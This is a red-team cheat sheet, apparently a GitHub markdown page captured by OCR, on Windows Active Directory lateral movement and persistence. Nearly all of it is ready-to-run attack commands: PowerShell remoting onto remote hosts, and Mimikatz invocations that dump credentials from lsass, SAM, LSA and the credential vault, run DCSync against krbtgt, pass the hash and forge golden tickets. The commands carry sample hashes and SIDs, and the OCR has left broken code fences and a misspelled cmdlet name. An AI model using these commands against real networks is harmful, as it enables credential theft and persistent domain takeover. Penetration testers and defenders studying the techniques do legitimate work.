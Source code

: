   ```powershell


# Lateral Movement & Persistance

- Execute command using powershell remoting 
  
  ```powershell
  $sess = New-PSSession -ComputerName <computer/list_of_servers>
  Enter-PSSession -$sess

  Enter-PSSession -ComputerName <server_name>

  Invoke-Command -Scriptblock {Get-Process} -ComputerName <computer>
  Invoke-Command -Scriptblock ${function:Get-Process} -ComputerName <computer>
  Invoke-Command -FilePath <script.ps1> -ComputerName <Get-Content computers.txt>


**Mimikatz Cheatsheet**

- Default Command
  ```powershell
  Invoke-Mimikatz
  Invoke-Mimikatz -DumpCreds
  Invoke-Mimikatz -DumpCreds -ComputerName <comp>

- Use Mimikatz with PowerShell Remoting
  ```powershell
  Invoke-Command -FilePath invoke-mimikatz.ps1 -Session $sess  

- Dump credentials from memory (lsass.exe)
  ```powershell
  Invoke-Mimimatz -Command '"sekurlsa::logonpasswords"'
  Invoke-Mimimatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'

- Dump credentials from local SAM account (Contains DSRM Admin creds) & LSA (conatins details from ntds.dat)
  ```powershell
  Invoke-Mimimatz -Command '"lsadump::sam"'
  Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

- Dump credentials from windows vault

  ```powershell
    Invoke-Mimimatz -Command '"token::elevate" "vault::list"'
    Invoke-Mimimatz -Command '"token::elevate" "vault::cred /patch"'

- Perform DCSync Attacks (Requires DA Rights) [Mention user in domain\user format only ]
  ```powershell
  Invoke-Mimimatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local"'

- Perform PassTheHash (PTH) Attacks (Requires Elevated Shell Access; "RunAs Administrator")
  ```powershell
  Invoke-Mimimatz -Command '"sekurlsa::pth /user:Administrator /domain:organicsecurity.local /ntlm:c10c9ac42937a938c0ca8faf0af0af02 /run:powershell.exe"'

- Use the KRBTGT Hash to craft Golden Ticket (TGT)
  ```powershell

  Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:organicsecurity.local /sid:S-1-5-21-181111131-32111163-5111111 /krbtgt:c10c9ac42937a938c0ca8faf0af0af02 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ticket:golden_tkt.kirbi"'

  Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:organicsecurity.local /sid:S-1-5-21-181111131-32111163-5111111 /krbtgt:c10c9ac42937a938c0ca8faf0af0af02 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
  ```